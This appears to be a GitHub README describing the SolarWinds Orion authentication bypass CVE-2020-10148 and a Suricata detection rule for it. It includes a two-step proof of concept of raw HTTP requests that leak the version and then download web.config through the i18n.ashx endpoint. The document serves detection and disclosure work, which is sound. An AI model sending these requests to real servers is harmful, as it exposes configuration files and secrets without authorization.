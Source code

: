 ## Overview
CVE-2020-10148 is an authentication bypass on SolarWinds Orion Platform. It just allows access to API without authenticating if users supply some specific strings on the URL. Attackers could exploit this vulnerability to abuse the API, which leads to remote code execution.

In my opinion, it looks like a basic CTF with something likes "admin=True" will give you admin access without logging in.

I write the Suricata rule to map to the mitigation provided by SolarWinds. Currently, there is only a local file disclosure PoC of this vulnerability. First, the attacker makes a request to the path "/Orion/invalid.aspx.js" to get the version. Afterward, he can use this version as a parameter to download arbitrary files with the "i18n.ashx" endpoint.

## Proof of Concept
* Leak version
```
GET /Orion/invalid.aspx.js HTTP/1.1
Host: example.com
```
* Download file
```
GET /web.config.i18n.ashx?l=en-US&v=42493.68 HTTP/1.1
Host: example.com
```

## References
* https://www.solarwinds.com/securityadvisory
* https://downloads.solarwinds.com/solarwinds/Support/SupernovaMitigation.zip
* https://gist.github.com/0xsha/75616ef6f24067c4fb5b320c5dfa4965
